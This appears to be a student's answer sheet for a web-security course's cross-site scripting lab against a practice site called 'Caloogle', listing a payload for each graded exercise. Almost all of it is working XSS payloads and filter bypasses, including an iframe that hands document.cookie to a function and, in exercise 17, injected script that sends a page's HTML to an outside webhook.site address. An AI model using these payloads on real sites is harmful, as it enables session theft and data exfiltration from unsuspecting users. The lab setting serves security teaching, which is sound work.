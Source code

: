 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
TODO: <script> alert() </script>
```
  

# 2. No Script Allowed (3 points)

```
TODO: <img src onerror="alert('Hacked by Hasan:)')">
```
  

# 3. One More Time, Like You Mean It (3 points)

```
TODO: <img src onerror="alert('You are Noob:D')">
```
  

# 4. An Open-and-Shut Case (3 points)

```
TODO: <img src onerror="alert('attack without torture ;D')">
```
  

# 5. Time to Mix Things Up (3 points)

```
TODO: <img src onerror="alert('attack without torture ;D')">
```
  

# 6. A Picture is Worth a Thousand Words (3 points)

```
TODO: <img src onerror="alert('Nope')">
```
  

# 7. Between a Rock And a Hard Place (3 points)

```
TODO: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
                                 or
  <iframe src=# onmouseover="success(document.cookie)"></iframe>
```
  

# 8. Angle of Death (6 points)

Attack input:

```
TODO: <<script>>alert()</script>
```
  

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: <iframe"<svg onload=alert()>">
```
  
# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: <iframe""<svg onload=alert()>"">
```
  

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: '><script>alert();</script>
```
  

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
TODO: http://caloogle.xyz:4140/search?q=a&lang=en%22%20onload=alert(1)**
```
  


# 15. The Early Bird Catches the Worm (3 points)

```
TODO: </ScrIpt><script>alert(1)</script>
```
  
  
# 16. Tying Up Loose Ends (3 points)

```
TODO: <<//ScrIpt><script>alert(1)<<//script>
```
  

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
```
  
# 18. Congrats

N/A

# Əlavə qeydlər

```
Sadəcə çox təşəkkürlər,daha yolun başındayıq amma indidən mükəmməl bilgilər əldə edirik.(sayənizdə)

```
